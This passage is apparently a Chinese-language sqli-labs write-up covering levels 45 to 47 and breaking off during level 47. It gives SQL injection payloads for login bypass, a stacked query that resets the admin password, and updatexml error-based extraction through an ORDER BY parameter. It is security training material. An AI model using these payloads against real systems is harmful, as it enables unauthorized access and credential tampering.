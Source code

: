 ## 第四十五关

尝试

```
login_user=admin
&login_password=')or(1=1)-- 
&mysubmit=Login
```

登录成功

![image-20220924104242522](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924104242522.png)

尝试注入

```
login_user=admin
&login_password=')or(1=2);update users set password='123' where username='admin'-- 
&mysubmit=Login
```

尝试使用密码123进行登录

![image-20220924104435991](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924104435991.png)

## 第四十六关

```
http://192.168.235.152/sqli-labs/Less-46?sort=4
```

报order by的行数错误，也就是说sort是order by的一个参数

![image-20220924104939537](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924104939537.png)

```
http://192.168.235.152/sqli-labs/Less-46?sort=3,2 and(updatexml(1,concat(0x7e,database(),0x7e),1))-- 
```

![image-20220924105254995](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924105254995.png)

## 第四十七关

尝试输入一个报错值，发现网页正常显示

![image-20220924105742972](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924105742972.png)

加上'发现报错

![image-20220924105830595](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924105830595.png)

可以推断1被'号包裹，然后尝试注入
